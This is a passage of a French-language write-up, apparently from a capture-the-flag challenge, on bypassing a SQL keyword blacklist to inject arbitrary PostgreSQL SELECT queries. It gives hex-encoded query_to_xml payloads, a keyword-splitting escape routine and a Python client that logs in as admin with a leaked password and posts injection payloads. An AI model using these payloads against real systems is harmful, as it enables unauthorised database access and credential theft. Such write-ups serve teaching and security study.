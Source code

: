 On peut convertir une query ``SELECT '1'`` en hexadecimal: ``53454c45435420273127`` et la faire executer comme ceci:

```sql
query_to_xml(encode(decode('53454c45435420273127','hex'),'es'||'cape'),true,true,'')
```

Ce qui donne: 
```sql
'||substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)|| (query_to_xml(encode(decode('53454c45435420273127', 'hex'),'esc'||'ape'),true,true,'')) ||'
```

![Screen5](./img/screen6.png)

De cette manière, on peut mettre à jour notre script pour executer n'importe quelle requète *SELECT* dans le *INSERT*:
```python
from binascii import hexlify

blacklist = ["SELECT","UNION","WHERE","INSERT","ALTER","SLEEP","DELETE","OR","EXEC","CREATE","AND","DROP","DO","COPY","SET","VACUUM","SHOW","CURSOR","TRUNCATE","CAST","BEGIN","PERFORM","END","CASE","WHEN","ALL","TABLE","UPDATE","TRIGGER","FUNCTION","PROCEDURE","DECLARE","RETURNING","TABLESPACE","VIEW","SEQUENCE","INDEX","LOCK","GRANT","REVOKE","SAVEPOINT","ROLLBACK","IMPORT","COMMIT","PREPARE","EXECUTE","EXPLAIN","ANALYZE","DATABASE","PASSWORD","CONNECT","DISCONNECT","PG_SLEEP","MERGE","USING","LIMIT","OFFSET","RETURN","ESCAPE","LIKE","ILIKE","RLIKE","EXISTS","BETWEEN","IS","NOT","GROUP","BY","HAVING","ORDER","WINDOW","PARTITION","OVER","FOREIGN", "KEY","REFERENCE","RAISE","LISTEN","NOTIFY","LOAD","SECURITY","OWNER","RULE","CLUSTER","COMMENT","CONVERT","COPY","CHECKPOINT","REINDEX","RESET","LANGUAGE","PLPGSQL","PLPYTHON","SECDEF","NOCREATEDB","NOCREATEROLE","NOINHERIT","NOREPLICATION","BYPASSRLS","FILE","PG_","IMPORT","EXPORT"]

def escape(query):  
    query = query.lower()
    for word in blacklist:
        word = word.lower()
        query = query.replace(word, word[:len(word)//2]+"'||'"+word[len(word)//2:])
    return query

class client:
    def __init__(self, url):
        ...

    def login(self, username, password):
        self.s.post(f'{self.url}/login', data={'username': username, 'passwd': password})

    def post_message(self, content):
        self.s.post(f'{self.url}/post_message', data={'content': content}).text

    def sqli(self, query):
        query = escape(f'''
        encode(decode('{hexlify(query.encode()).decode()}', 'hex'),'escape')
        '''.strip())
        self.post_message(content=f'''
        '||{self.bypass}|| (query_to_xml({query},true,true,'')) ||'
        '''.strip())

c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
c.sqli(query="SELECT '1'")
```
